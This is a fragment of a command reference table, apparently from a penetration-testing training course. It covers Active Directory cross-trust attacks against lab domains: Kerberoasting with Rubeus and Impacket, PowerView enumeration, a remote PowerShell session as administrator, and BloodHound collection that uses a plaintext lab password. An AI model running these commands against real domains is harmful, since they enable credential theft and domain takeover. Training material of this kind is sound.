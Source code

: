 | `.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap`                                | Uses `Rubeus` to perform a Kerberoasting Attack against a target Windows domain (`/domain:FREIGHTLOGISTICS.local`) from a Windows-based host.  |
| `Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL`                                                  | PowerView tool used to enumerate groups with users that do not belong to the domain from a Windows-based host.                                 |
| `Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator` | PowerShell cmd-let used to remotely connect to a target Windows system from a Windows-based host.                                              |
| `GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley`                       | Impacket tool used to request (`-request`) the TGS ticket of an account in a target Windows domain (`-target-domain`) from a Linux-based host. |
| `bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2`                   | Runs the Python implementation of `BloodHound` against a target Windows domain from a Linux-based host.                                        |
| `zip -r ilfreight_bh.zip *.json`                                                                               | Used to compress multiple files into 1 single `.zip` file to be uploaded into the BloodHound GUI.                                              |
